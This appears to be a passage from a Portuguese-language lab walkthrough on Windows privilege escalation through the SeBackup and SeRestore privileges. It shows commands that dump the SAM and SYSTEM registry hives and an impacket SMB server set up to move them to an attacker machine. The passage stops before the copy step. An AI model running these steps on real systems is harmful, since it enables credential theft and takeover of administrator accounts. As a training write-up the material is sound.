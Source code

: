 ```yaml
---
tags:
  - EXPLOITATION
  - Windows
---
```

# Backup / Restauração

Os privilégios SeBackup e SeRestore permitem que os usuários leiam e escrevam para qualquer arquivo no sistema, ignorando qualquer DACL no lugar. A ideia por trás desse privilégio é permitir que certos usuários realizem backups de um sistema sem exigir privilégios administrativos completos.

Tendo esse poder, um atacante pode trivialmente escalar privilégios no sistema usando muitas técnicas. O que vamos olhar consiste em copiar as colmeias de registro SAM e SYSTEM para extrair o hash de senha do administrador local.

Uma vez no prompt de comando, podemos verificar nossos privilégios com o seguinte comando:
Prompt de comando

```powershell
C:\> whoami /priv
```

# Informação de Privilégios

Para fazer backup dos hashes SAM e SYSTEM, podemos usar os seguintes comandos:
Prompt de comando

```powershell
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.

C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.
```

Isso criará alguns arquivos com o conteúdo do registro. Agora podemos copiar esses arquivos para nossa máquina de invasores usando SMB ou qualquer outro método disponível. Para SMB, podemos usar o impacket's smbserver.py para iniciar um servidor SMB simples com um compartilhamento de rede no diretório atual do nosso AttackBox:
Kali Linux em inglês

```shell
user@attackerpc$ mkdir share
user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

Isso criará uma partilha nomeada publicapontando para o sharediretório, que requer o nome de usuário e senha da nossa sessão atual do Windows. Depois disso, podemos usar o copycomando em nossa máquina Windows para transferir ambos os arquivos para o nosso AttackBox:
Prompt de comando
